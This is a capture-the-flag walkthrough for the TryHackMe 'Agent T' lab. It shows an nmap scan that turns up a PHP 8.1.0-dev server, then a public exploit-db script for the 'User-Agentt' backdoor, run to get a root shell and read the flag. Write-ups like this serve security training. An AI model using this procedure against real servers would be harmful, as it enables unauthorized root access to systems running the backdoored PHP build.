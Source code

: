**THM** : Agent T<br>
**Room Link** : https://tryhackme.com/room/agentt<br>
**Difficulty** : Easy <br>
**Flags to capture** : Root<br>
**Key Topics, Techniques, and Tools** : <br>
 - Ports and Services scan : [nmap](https://nmap.org/)
 - Exploit
 - Python scripting
 - Bash scripting 

<p align="center">   <img src="https://i.imgur.com/ah92RBF.png"> </p>  

# Summary
  - [Adding IP to the hosts file](#adding-ip-to-the-hosts-file)
  - [Nmap scan](#nmap-scan)
  - [Website discovery](#website-disovery)
  - [Exploiting the PHP version](#exploiting-the-php-version)

<p align="center">   <img src="https://i.imgur.com/Kmtrf12.png"> </p> 

## Adding IP to the hosts file 
I start by adding the IP of the machine to my hosts file:<br>
```
echo "10.10.53.229 agent-t.thm"|sudo tee -a /etc/hosts
```   

## Nmap scan

I perform an `Nmap` scan on the target host and save the output to a file called `nmapResults.txt` <br>
The scan includes all ports `-p-` and uses aggressive scan options `-A` <br>

```
└─# nmap agent-t.thm -A -p- -oN nmapResults.txt

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 22:20 CEST
Nmap scan report for agent-t.thm (10.10.53.229)
Host is up (0.034s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=4/30%OT=80%CT=1%CU=44769%PV=Y%DS=2%DC=T%G=Y%TM=644ECDA
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST1
OS:1NW7%O6=M508ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=3F%W=FAF0%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=3F%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=3F%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   32.40 ms 10.8.0.1
2   33.25 ms agent-t.thm (10.10.53.229)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.86 seconds                                                           
```

There is only 1 open port :
- `HTTP` - `PHP 8.1.0-dev` on port `80` 

## Website discovery
By going on the site, I find an admin dashboard webpage which seems to not allow user input :
<img src=https://i.imgur.com/VwYEShb.png>

## Exploiting the PHP version
At this stage, the only information that seems usable is the version of PHP (`PHP 8.1.0-dev`), so I decide to go to the site `exploit-db.com` (a public archive of exploits and vulnerable software maintained by `Offensive Security`) to see if an exploit is available : 
<img src=https://i.imgur.com/anuT98z.png>

There is an exploit which is a python script that allows to execute code remotely by exploiting a backdoor by sending an HTTP header  named `User-Agentt` :
<img src=https://i.imgur.com/2IdbCV3.png>

I download the script and try to execute it. I just have to enter the URL of the target machine to get a root shell :
```
└─# python3 49933.py        
Enter the full host url:
http://agent-t.thm/

Interactive shell is opened on http://agent-t.thm/ 
Can't acces tty; job crontol turned off.
$ whoami
root
```
Now that I have root access to the machine, I can recover the `root flag` :
```
$ ls /
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

$ cat /flag.txt
flag{*******************************}
```
